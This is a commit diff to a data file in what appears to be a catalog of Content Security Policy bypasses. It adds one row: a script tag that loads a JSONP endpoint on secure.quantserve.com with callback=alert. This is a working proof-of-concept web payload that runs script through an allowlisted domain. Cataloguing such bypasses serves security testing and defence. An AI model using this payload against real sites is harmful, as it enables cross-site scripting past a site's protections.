

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
Added secure.quantserve.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 69: secure.quantserve.com | <script src="https://secure.quantserve.com/api/segments.json?callback=alert"></script> | renniepak
```
